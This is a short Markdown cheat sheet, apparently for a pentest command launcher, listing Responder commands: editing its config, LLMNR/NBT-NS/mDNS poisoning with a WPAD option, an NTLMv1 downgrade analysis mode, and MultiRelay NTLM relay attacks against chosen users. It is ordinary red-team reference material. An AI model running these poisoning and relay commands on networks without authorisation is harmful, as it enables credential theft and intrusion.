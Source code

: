 # responder

% responder, LLMNR, NBT-NS, Poisoning, man in the middle

## _url
```
https://github.com/lgandx/Responder
```

## _desc
```
IPv6/IPv4 LLMNR/NBT-NS/mDNS Poisoner and NTLMv1/2 Relay
```

## _links
```
https://github.com/lgandx/Responder
```

## conf - http on
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/HTTP = Off/HTTP = On/g' /usr/share/responder/Responder.conf && cat /usr/share/responder/Responder.conf | grep --color=never 'HTTP ='
```

## conf - http off
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/HTTP = On/HTTP = Off/g' /usr/share/responder/Responder.conf && cat /usr/share/responder/Responder.conf | grep --color=never 'HTTP ='
```

## conf - smb on
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/SMB = Off/SMB = On/g' /usr/share/responder/Responder.conf && cat /usr/share/responder/Responder.conf | grep --color=never 'SMB ='
```

## conf - smb off 
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/SMB = On/SMB = Off/g' /usr/share/responder/Responder.conf && cat /usr/share/responder/Responder.conf | grep --color=never 'SMB ='
```

## analyze
```
responder –I <interface> -A
```

## analyze (NTLM V1)
#tag/responder
```
responder –I <interface> -A --lm --disable-ess
```

## poison
#plateform/linux #target/remote #cat/ATTACK/MITM 
```
responder -v –I <interface>
```
## poison with another ip
#plateform/linux #target/remote #cat/ATTACK/MITM 
```
responder -v –I <interface> -e <ip>
```

## poison with wpad file 
#plateform/linux #target/remote #cat/ATTACK/MITM 
```
responder -v -I <interface> --wpad
```

## multirelay attack - user filtered (previous disable HTTP and SMB)
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
multirelay -t <ip> -u <user1> <user2>
```

## multirelay attack - all user (previous disable HTTP and SMB)
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
multirelay -t <ip> -u ALL
```
